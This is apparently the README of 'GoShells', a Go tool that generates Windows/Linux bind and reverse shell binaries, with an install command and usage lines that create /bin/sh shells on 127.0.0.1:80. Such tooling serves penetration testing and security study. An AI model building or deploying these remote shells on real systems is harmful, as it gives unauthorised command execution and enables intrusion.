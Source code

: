 # GoShells

Quick tool to create Windows/Linux Bind or reverse shells binaries

## Installation

```shell
go install github.com/shoriwe/goshells
```

## Usage

### Create a bind based command execution

```shell
goshells shell.elf bind 127.0.0.1:80 /bin/sh
```

### Create a reverse based command execution

```shell
goshells shell.elf reverse 127.0.0.1:80 /bin/sh
```